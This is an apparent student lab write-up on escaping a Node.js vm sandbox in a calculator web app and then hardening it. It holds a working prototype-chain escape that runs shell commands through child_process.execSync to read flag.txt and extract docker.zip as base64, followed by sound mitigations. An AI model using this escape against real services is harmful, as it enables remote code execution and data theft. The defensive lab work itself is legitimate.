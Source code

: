 # lab4 JavaSript Sandboxing

**Group 47 | Wenjun Tian | Yichen Li**

## Part 1: Finding the flag

### 1.1 Finding  the vulnerability 

When pressing `max` button, we can see `Math.max(` in the input:

![image-20250516160133587](C:\Users\amamiya\AppData\Roaming\Typora\typora-user-images\image-20250516160133587.png)

Clearly there is chance that the server uses `eval` or other similar approaches to directly execute our input. Thus, we can plot a general approach to get `shell` access of the server and execute our code:

1. Get the `process` object.
2. Use `process.mainModule.require("child_process").execSync(${SHELL_CODE});` to create a child process and execute our malicious `SHELL_CODE`.

There are many ways to get the `process` object. Here are the methods we have tried:

1. Directly get from `globleThis`:
`globalThis.process` -> `Undefined`.

2. Construct a function to return:
`Function("return process")(`) -> `invalid input!`. Maybe the `Function()` is not available.

3. Utilize the prototype chain to get the `Fucntion()`:
`this.constructor.constructor("return process")()` -> `[object process]`. Got it!

Thus the third method is our final approach to get `process`. The prototype chain used to get `Function` can explained as follows:

1. For `this.constructor`, `this` (object) has no constructor attribute, find in `this.__proto__ == THIS.prototype` (where This is the function to create this object). Thus, `this.constructor == this.__proto__.constructor == THIS.prototype.constructor == THIS`, i.e., `this.constructor == THIS`
2. Similarly, we have: `THIS.constructor == THIS.__proto__.constructor == Function.prototype.constructor == Function`

Therefore, `this.constructor.constructor == Function`

Finally, we can use the following script as input to execute our shell code on the server:

```javascript
this.constructor.constructor("return process")().mainModule.require("child_process").execSync(${SHELL_CODE})
```

### 1.2 Exploiting procedure

First, we list the home folder of the server:

```javascript
this.constructor.constructor("return process")().mainModule.require("child_process").execSync("ls -a").toString();
```

![image-20250516144135519](C:\Users\amamiya\AppData\Roaming\Typora\typora-user-images\image-20250516144135519.png)

In the home folder, we have:

```
.. . Dockerfile calc.js docker.zip flag.txt index.html node_modules package-lock.json package.json server.js
```

Now we retrieve the `flag.txt`

```javascript
this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat flag.txt").toString();
```

![image-20250516150542320](C:\Users\amamiya\AppData\Roaming\Typora\typora-user-images\image-20250516150542320.png)

```
FLAG-EsCaPeD2025-LOOK4DOCKERZIP!
```

According to the flag, we have to get the `docker.zip` file. Since we can only get  string from the input bar, we encode it as a `base64` string.

```javascript
this.constructor.constructor("return process")().mainModule.require("child_process").execSync("base64 docker.zip").toString();
```

![image-20250516151555598](C:\Users\amamiya\AppData\Roaming\Typora\typora-user-images\image-20250516151555598.png)

After that, we save the `base64` string into file `a`, and decode it back to a zip file.

```
base64 -d a > docker.zip
```

Finally, we can decompress the zip file and see the source files or the calculator:

![image-20250516152241820](C:\Users\amamiya\AppData\Roaming\Typora\typora-user-images\image-20250516152241820.png)

## Part 2: Fixing the system

### 2.1  Check the provided server

As we can see in `server.js`, our input is passed to `cal.js`

```javascript
...
// Handle POST request for script execution
app.post("/result", (req, res) => {
    handle(req.body.script, res);
});
...
// Function to process script input and return a modified HTML response
function handle(script, res) {
	...
    const ans = require("./calc")(script);
    ...
}
...
```

In `cal.js`, we can see logic to handle the input script:

```javascript
const vm = require("vm");
...
function main(line) {
    const env = {};
    const options = { timeout: 1000 };
    const blacklist = ["abort", "kill", "exit", "error", "throw", "promise", "emit", "quit"];
    let res;
    try {
        for (const item of blacklist) {
            if (line.toLowerCase().includes(item)) {
                throw "Devil attempts!";
            }
        }
        res = evalInJail(env, options, line);
    } catch (e) {
        res = e;
    }
    return res;
}
...
```

Generally there are 2 steps to check the script:

1. Check if there are black-listed words in the script.
2. Run the script in a `vm` sandbox with empty context and `1000ms` timeout.

### 2.2 Our approach to improve the server

#### 2.2.1 Input sanitization

Since the valid input of the calculator is very simple, we can setup a fairly easy regular expression to check input validity (non-exhaustively):

```
^[0-9+\-*/<>,()[\] .]*\b(Math\.min|Math\.max)?\b[0-9+\-*/<>,()[\] .]*$
```

To be more specific:

1. `[0-9+\-*/<>,()[\] .]*` matches regular math expressions, including digits (`0-9`), numerical operators (`+-*/<>`), dot and brackets(`.()[]`). The tailing `*` means `0-N` such characters.
2. `\b(Math\.min|Math\.max)?\b` matches zero or one`Math.min` and `Math.max`.
3. The tailing `[0-9+\-*/<>,()[\] .]*` is the same as the former one and it is used to match regular math expressions after `min` or `max`.

#### 2.2.2 Least accessibility of script

Apart from input sanitization, we can limit the objects that the script can access. In this case, only `Math` object is needed, so we set up the environment like:

```javascript
const env = {
        Math, // Global var that can be accessed
    };
```

Given least accessibility of the objects, we lower the risk of malicious behavior of the script.

#### 2.2.3 Tests

The code we have submitted passed the automatic tests in the Fire system.

### 2.3 Other alternative mitigations

1. Do not execute user's input. In most of the cases, we should not execute user's input, thus there is no way for script injection attack. Especially in this calculator server, we can easily write a function to calculate the input instead of execute it directly. However, there are still some cases that we should utilize the execution of users' scripts for various reasons, such as showing html comments.
2. Using whitelists instead of blacklists in input validation, since we can take the cost of false-positives but not that of false-negatives. 
3. Obey the least privilege principle: limit the resource every user can use. This is included in the original version by setting execution timeout, and setting the accessibilities of objects outside the script. In real cases, we can have more limits on CPU time, memory, files, core modules like `require/process`, etc.
4. Using `VM2` instead of `VM`. The former one is more advanced.
5. Using automatic tools to test sandbox escaping, such as ([SandDriller: A Fully-Automated Approach for Testing Language-Based JavaScript Sandboxes (usenix.org)](https://www.usenix.org/system/files/usenixsecurity23-alhamdan_1.pdf))



